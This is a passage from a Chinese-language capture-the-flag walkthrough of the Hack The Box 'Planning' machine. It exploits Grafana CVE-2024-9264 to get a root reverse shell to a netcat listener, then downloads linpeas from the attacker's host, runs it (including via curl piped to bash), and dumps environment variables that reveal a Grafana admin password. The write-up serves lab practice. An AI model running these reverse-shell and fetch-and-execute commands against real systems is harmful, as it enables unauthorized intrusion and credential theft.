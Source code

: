 发现Grafana存在RCE：CVE-2024-9264

先开启监听：`nc -lvp 9001`

再执行poc：`python3 CVE-2024-9264.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.16.18 --reverse-port 9001`

反弹shell：

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.10.16.18] from planning.htb [10.10.11.68] 35730
sh: 0: can't access tty; job control turned off
# whoami
root
```

## 检查是否是Docker容器环境
```bash
# ls -la / | grep .dockerenv 
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
# hostname
7ce659d667d7
```
## 使用linpeas本地提权信息收集

- kali开启python http.server 服务
```bash
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
---
- 容器download脚本并运行

```bash
wget http://10.10.16.18:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
OR
curl -sL http://10.10.16.18:8000/linpeas.sh | bash
```

---
**输出：**
```
╔══════════╣ Checking all env variables in /proc/*/environ removing duplicates and filtering out useless env vars
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
AWS_AUTH_AssumeRoleEnabled=true
AWS_AUTH_EXTERNAL_ID=
AWS_AUTH_SESSION_DURATION=15m
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_HOME=/usr/share/grafana
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
SHLVL=0
```